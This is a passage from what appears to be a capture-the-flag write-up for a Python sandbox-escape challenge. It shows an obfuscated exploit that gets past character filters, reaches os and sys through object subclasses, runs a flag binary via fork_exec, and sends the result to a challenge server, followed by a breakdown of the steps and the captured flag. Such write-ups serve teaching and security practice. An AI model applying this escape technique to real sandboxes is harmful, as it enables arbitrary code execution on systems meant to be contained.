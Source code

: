 ```py
        else: final += f"_.__qualname__[{gen_int(ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz.__qualname__.find(x))}]+" if ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz.__qualname__.find(x) != -1 else f"{call_function('_.__class__.__subclasses__', '_.__base__')}[{gen_int(14)}].__doc__[True]+"
    return final[:-1]


sys_s = f"[*{os_module}][{gen_int(9)}]"
sys_modules = f"{os_module}[{sys_s}].modules"

main_module_s = f"[*{sys_modules}][{gen_int(22)}]"
eval_func = f"{sys_modules}[{main_module_s}].eval"

to_eval = build_string(f"[(os_module:=().__class__.__base__.__subclasses__()[{gen_int(137)}].__init__.__globals__).__class__,(sys:=os_module['sys']).__class__,sys.modules['_posixsubprocess'].fork_exec([f'.{{True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True:c}}readflag'.encode()],[f'.{{True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True--True:c}}readflag'.encode()],True,(),None,None,-True,-True,-True,-True,-True,-True,*(os_module['pipe']()),False,False,None,None,None,-True,None)]")

system_sh = call_function(eval_func, to_eval).replace(' ', '\t')


r = remote("34.139.98.117", 6669)
r.sendline(system_sh)
r.interactive()
```

Let's break it down
 - `gen_int` Since numbers cannot be used, they can be generated from booleans (eg. `3` becomes `True -- True -- True`). I used `--` instead of `+` because I couldn't find `+` inside the docs
 - `build_string` `"` and `'` are not allowed so it's possible to build the payload from docs and from `_.__qualname__`
 - `call_function` generate the payload to call a specified function with an argument
 - `subclasses` is the equivalent of `_.__class__.__subclasses__(_.__base__)`, which is the equivalent of `_.__class__.__base__.__subclasses__()`
 - Access `os._wrap_close` (position 137) to recover the `os` module objects
 - Do the same thing for the `sys` module and then recover `__main__.eval`
 - Build the payload which will be passed to `eval`: `[(os_module:=().__class__.__base__.__subclasses__()[137].__init__.__globals__).__class__,(sys:=os_module['sys']).__class__,sys.modules['_posixsubprocess'].fork_exec([f'.{47:c}readflag'.encode()],[f'.{47:c}readflag'.encode()],True,(),None,None,-True,-True,-True,-True,-True,-True,*(os_module['pipe']()),False,False,None,None,None,-True,None)]`
 - Finally, pass that payload to `eval` and proceed to send everything to the remote server

 ### Flag
`L3AK{ok_so_os_wrap_close_works_with_builtin_removal_so_added_audit_sandbox_lol_689db2}`

